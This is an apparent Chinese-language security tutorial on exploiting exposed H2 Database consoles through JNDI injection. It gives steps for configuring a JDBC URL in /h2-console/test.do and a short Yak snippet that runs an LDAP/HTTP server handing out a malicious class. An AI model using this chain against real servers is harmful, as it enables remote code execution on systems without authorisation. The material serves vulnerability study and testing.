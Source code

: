 ```
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZc14ASY5e0oN3CmwzbPIJaApibc60QlmNqDKKIDkSG021NNceZlT65jVLVXrI8jByDW3NF0V6CLGwg/640?wx_fmt=png&from=appmsg "")  
  
  
**H2 Database**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZc14ASY5e0oN3CmwzbPIJaArMrIlEiaf1nfKHRa2v3Picrdl67bkHxPutzkiaT5ibZIcACJo9gbzltgGw/640?wx_fmt=png&from=appmsg "")  
  
##   
  
![](https://mmbiz.qpic.cn/mmbiz_svg/zsUXYY6y4cIDakURPCPDZiaUOiaeibUvwicKwtaOL6AWEpWlwzBibVCqr20eRrG2JnWsUNf0BowF2HOsibA5BFe9vuwVZcianwluXoib/640?wx_fmt=svg&from=appmsg "")  
  
**原理**  
###   
  
不正当的配置h2database导致攻击者可以访问h2-console页面，可以指定jdni url发起连接  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/zsUXYY6y4cIDakURPCPDZiaUOiaeibUvwicKwtaOL6AWEpWlwzBibVCqr20eRrG2JnWsUNf0BowF2HOsibA5BFe9vuwVZcianwluXoib/640?wx_fmt=svg&from=appmsg "")  
  
**实践**  
###   
  
可以使用yakit的 "反连服务器" 实现jndi利用  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZc14ASY5e0oN3CmwzbPIJaAN6sAnnLUG8GjribiamEic3ic2aJ4NC6JgUdTYhKAyHsXmHYZSeuJb0CNOA/640?wx_fmt=png&from=appmsg "")  
  
先生成一个dnslog，再配置payload  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZc14ASY5e0oN3CmwzbPIJaAMliaNEaN7j3npyCSwI4vg3lhEMVkEWSfyfnkvmGApYervVNic30BKn7w/640?wx_fmt=png&from=appmsg "")  
  
打开/h2-console/test.do页面，配置Driver Class，和jdbc url，点击测试连接  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZc14ASY5e0oN3CmwzbPIJaAuoHeKonu0be7HwhmuGvHiamXcWVhUUHEruxn4ib44HLoibQ99G2Ozsxew/640?wx_fmt=png&from=appmsg "")  
  
在yakit中可以看到请求记录如图。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZc14ASY5e0oN3CmwzbPIJaAccIkzTgkiaDwQF3aibtVsA40iadq8pswBbAMujWu4UBXkEcUicSLHWsicSw/640?wx_fmt=png&from=appmsg "")  
  
同样的可以在yak中编写代码启动 "反连服务器"  
```
go fn{
    className = randstr(8)
    facades.Serve("0.0.0.0", 8089,
        facades.ldapResourceAddr(className, "127.0.0.1:8089"), // 通过ldap://facades_server_address/class_name 访问会响应从"127.0.0.1:8089"读取class的结构
        facades.httpResource(className, evalClassResource), // 通过http://facades_server_address/class_name 访问会响应 evalClassResource
    )
}
```  
```

```  
  